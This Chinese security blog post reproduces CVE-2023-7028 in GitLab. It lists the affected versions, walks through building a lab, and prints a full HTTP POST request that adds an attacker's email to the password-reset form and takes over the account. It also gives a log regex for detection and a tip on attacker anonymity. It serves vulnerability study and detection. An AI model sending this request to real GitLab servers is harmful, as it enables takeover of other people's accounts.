 #  【漏洞复现】Gitlab任意用户密码重置   
原创 Chris  溪琉安全录   2024-01-14 19:52  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/HeyvlDcgSI1GV2TF3pX09U50Jc9dVr4QiaJxKo6JpaPYsScKKSrfaRuyk3ibN7WosBFE9f2M0H4StiaBb4GXDK4IA/640?wx_fmt=gif "")  
  
****  
**0x01 前言**  
  
2024年1月，GitLab发布安全更新修复了一个任意用户密码重置漏洞，CVE编号为  
CVE-2023-7028，原因是  
在GitLab发布的16.1.0版本中引入了通过电子邮件找回密码的功能，已经注册的用户输入电子邮件会发送一个带有重置密码链接的邮件，攻击者可以通过构造恶意的数据包添加一个  
未验证的电子邮箱地址，同样可以收到重置密码的链接，达到重置密码的效果。  
  
**0x02 影响版本**  
  
  
16.1 <= GitLab CE/EE < 16.1.5  
  
16.2 <= GitLab CE/EE < 16.2.8  
  
16.3 <= GitLab CE/EE < 16.3.6  
  
16.4 <= GitLab CE/EE < 16.4.4  
  
16.5 <= GitLab CE/EE < 16.5.6  
  
16.6 <= GitLab CE/EE < 16.6.4  
  
16.7 <= GitLab CE/EE < 16.7.2  
  
该漏洞利用方式较为简单，触发条件为：  
  
1.gitlab使用了邮箱登录认证  
  
2.需要获得一个在Gitlab数据库中已经存在的邮箱，即Gitlab用户注册时候填的邮箱  
  
**0x03 环境搭建**  
  
****  
安装包从国内镜像站下载即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGEzcRSMibicUiavxgDdJoDTn0OSt9W7jCAMT3HhBhsNX79WYXbVVwyfLbA/640?wx_fmt=png&from=appmsg "")  
  
安装镜像和依赖  
```
yum localinstall gitlab-ce-16.1.1-ce.0.el7.x86_64.rpm  -y
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGcVhEfqV7Gq9Mibv0xcjOLTrvkzCDfLH0UBUCAysX5NuNvZz5u2OgFIw/640?wx_fmt=png&from=appmsg "")  
  
修改配置文件后，gitlab-ctl reconfigure 重新加载配置  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWG3maHiaqGjjD61v0vaMA8U9X7jFzvjyHvPFYpaflEtT8JDmGXWfamHtQ/640?wx_fmt=png&from=appmsg "")  
  
gitlab-rails console进入控制台  
  
测试向外发送一封电子邮件，看邮件功能是否正常  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGASsu0OukqMSicO8MW2gB5tYec6NxLngfNuIERaSkpM0QNjsLOIOicfIA/640?wx_fmt=png&from=appmsg "")  
  
可以正常收到即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGu5uVO0JfOq4eB18GpoPBcOMsCHHFJmIv7Mf5FtYPJHbbQ3UKMUNYjg/640?wx_fmt=png&from=appmsg "")  
  
安装成功后会自动生成一个初始密码，24小时后第一次重新加载配置文件的时候失效  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGec5vuvnU8jJe2CqrSXrPawCAD92CU6Qn5Cc3VMZczS89oyJjvbsv3w/640?wx_fmt=png&from=appmsg "")  
  
到/etc/gitlab/initial_root_password查看密码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGmDGfVqEMIicXicxO4bul9JA7APFF4DzedFbrrc9FLbLeSD903ia0dUFVA/640?wx_fmt=png&from=appmsg "")  
  
使用root账户和上边的密码就可以进入后台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWG2P30EtOVdHkGI0ianmy9xYjib7vWEPj4CX5icar2IRQDZq7nmW2iaP8aYw/640?wx_fmt=png&from=appmsg "")  
  
注册一个新用户来模拟已经存在的邮箱  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGico8IDBGLRZJOnjbrSdMynIZhIfq5KbhreliclTwQBxMV7jNiaRznhT4A/640?wx_fmt=png&from=appmsg "")  
  
注册成功后需要等待管理员批准  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWG68QREkmJgQrEeMqerf7iaT6NMkfFMvEgxELmwP0L6QO9V1HKMpenmfA/640?wx_fmt=png&from=appmsg "")  
  
批准通过，即可登录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGicGQC8LuTEqveYfNqr9icIQ8yU3RMVpibVwFZ5Mv7QwBjBUSIBlMhzocg/640?wx_fmt=png&from=appmsg "")  
  
至此我们触发漏洞的环境就都搭配好了  
  
**0x04 漏洞利用**  
  
****  
这里我们把Gitlab配置的发件人邮箱简称为A@163.com，正常的Gitlab用户邮箱简称为B@163.com，攻击者的邮箱简称为C@163.com  
  
先看正常的找回密码的数据包，只有一个token和正常的找回密码收件邮箱，数据包构造为authenticity_token=&user[email]=B@163.com  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGwq9lVUkYNepadcN5t95zK3dsgqOFYpicjiclJYa1NvTdWUUXeTSnEkmQ/640?wx_fmt=png&from=appmsg "")  
  
该漏洞触发的时候只需要在后边添加一个攻击者邮箱即可，数据包格式为authenticity_token=&user[email][]=B@163.com&user[email][]=C@163.com  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGEtGuWqJaAXyc7DpoykJFncn4xLEpJeIGl8BFwtqQxU5iczdcjav4qvQ/640?wx_fmt=png&from=appmsg "")  
  
数据包如下  
```
POST /users/password HTTP/1.1
Host: xxx
Content-Length: 188
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://xxx
Content-Type: application/x-www-form-urlencoded
Referer: http://xxx/users/password/new
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

authenticity_token=xxxxx&user%5Bemail%5D%5B%5D=B@163.com&user%5Bemail%5D%5B%5D=C@163.com
```  
  
攻击者和失陷账户收到的邮件是一样的，都可以清楚的看到两个人的邮箱  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGMaF5xtWKl3lZGgIQ6zYKmn5ICrY60sAgDINHB9HoFQLhuCEA7TfrVA/640?wx_fmt=png&from=appmsg "")  
  
点击Reset password后进入重置密码界面  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGxY4MDbqnmylK1mWqqZQqASozZZQ1EzHSxibCzqbwyBd3rUogCLSxFYQ/640?wx_fmt=png&from=appmsg "")  
  
****  
**0x05 总结**  
  
****  
1.整个漏洞的利用过程并非把重置密码的邮件劫持掉了，更像是群发了一份，因为收到的邮件可以看到都有谁收到了邮件。因此，正常业务中如果收到了重置密码的邮件并且收件人中不只有自己的邮箱，请赶紧修改密码并通知安全人员  
  
2.经测试，修改密码的链接点击进去修改一次之后就失效了，收件人谁点的快谁先生效  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGHicDmfuu2sIicLL8EDkaUZQy0cA7bTxhBBqMV74UkwRGz3yDLDl9soRQ/640?wx_fmt=png&from=appmsg "")  
  
3.authenticity_token并非登录之后的token，构造数据包前需要先到users/password/new接口获取下authenticity_token的值  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWGlKlF0ceNNiaeSpjFnuWRGNONmRPvDyU2cjMIicrDGvHJle23nrqe6sDw/640?wx_fmt=png&from=appmsg "")  
  
4.排查攻击的时候可以查看production_json.log日志文件，使用{"key":"user","value":{"email"(.*?)}}],"remote_ip":正则匹配到的邮箱，重点排查非Gitlab中注册用户的邮箱  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3Fs3Mgc8yAtQWqflX6oqWG7lAILuuzB0Py2yAKgb4Bet3Aucb4b74YRmccl3m6K1pVuQOfRyGicHQ/640?wx_fmt=png&from=appmsg "")  
  
5.由于该漏洞触发需要Gitlab数据库中存在的邮箱，公网绑定了域名的Gitlab需要提防邮箱泄漏的情况  
  
6.攻击者在攻击的时候需要考虑邮箱的匿名，收到邮件的尽量快一点重置密码  
  
**0x06 参考链接**********  
  
****  
  
https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released  
  
[https://mp.weixin.qq.com/s/qYjiUItKLHjlgl0PfofB4g](https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247492242&idx=1&sn=2834e0e0913bca6f7b777efbc00326a6&scene=21#wechat_redirect)  
  
  
https://blog.csdn.net/qq_44930876/article/details/129497509  
  
[https://mp.weixin.qq.com/s/i9EoGEgtWM6WkCz3Qro7fA](https://mp.weixin.qq.com/s?__biz=MzIwODc2NjgxNA==&mid=2247483963&idx=1&sn=8ca5d1fd9e5b437ec7bbed8db474e791&scene=21#wechat_redirect)  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HeyvlDcgSI3rptD5qOT8iaiawZtFPr4sjGVk5GcFroTSsRVPw5EF5GTyrtMbHiblyUFQrGLyG7511PlChxAKsly4Q/640?wx_fmt=png "")  
  
